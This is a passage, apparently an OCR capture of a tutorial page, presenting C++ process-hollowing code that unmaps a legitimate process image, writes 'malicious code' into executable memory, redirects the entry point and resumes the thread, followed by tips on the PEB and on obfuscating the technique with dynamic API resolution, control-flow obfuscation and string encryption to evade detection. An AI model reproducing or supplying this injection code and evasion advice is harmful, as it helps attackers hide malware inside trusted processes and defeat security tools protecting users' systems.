 ```cpp

    // Step 3: Unmap the original executable from the process's memory
    ZwUnmapViewOfSection(pi.hProcess, pImageBase);

    // Step 4: Allocate memory for the malicious code
    PVOID pMaliciousBase = VirtualAllocEx(pi.hProcess, pImageBase, pwszMaliciousPath->SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (!pMaliciousBase) {
        TerminateProcess(pi.hProcess, 0);
        return false;
    }

    // Step 5: Write the malicious code into the process
    WriteProcessMemory(pi.hProcess, pMaliciousBase, pwszMaliciousPath, pwszMaliciousPath->SizeOfImage, nullptr);

    // Step 6: Set the entry point to the malicious code
    ctx.Rcx = (DWORD64)pMaliciousBase + pwszMaliciousPath->AddressOfEntryPoint;
    SetThreadContext(pi.hThread, &ctx);

    // Step 7: Resume the process
    ResumeThread(pi.hThread);

    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);
    
    return true;
}
```

### **Key Points to Remember:**

- **ZwUnmapViewOfSection**: This function is critical for removing the original process image from memory, allowing the attacker to replace it with the malicious code.
  
- **PEB (Process Environment Block)**: Understanding the PEB structure is essential as it contains critical information, including the base address of the process image.

- **Process Environment**: The attacker must ensure that the process environment, such as the PEB and TEB (Thread Environment Block), is properly set up for the malicious code to execute correctly.

### **Obfuscation Techniques with Process Hollowing**

Process hollowing can be combined with various obfuscation techniques to make detection even harder:

1. **Dynamic API Resolution**: Instead of statically linking to APIs like `CreateProcess`, dynamically resolve these APIs at runtime using `GetProcAddress`.

2. **Control Flow Obfuscation**: Alter the control flow in the hollowing code to include dead code, loops, or conditional branches that serve no purpose but make the code harder to analyze.

3. **String Encryption**: Encrypt strings, such as the path to the malicious code or API names, and decrypt them only when needed.
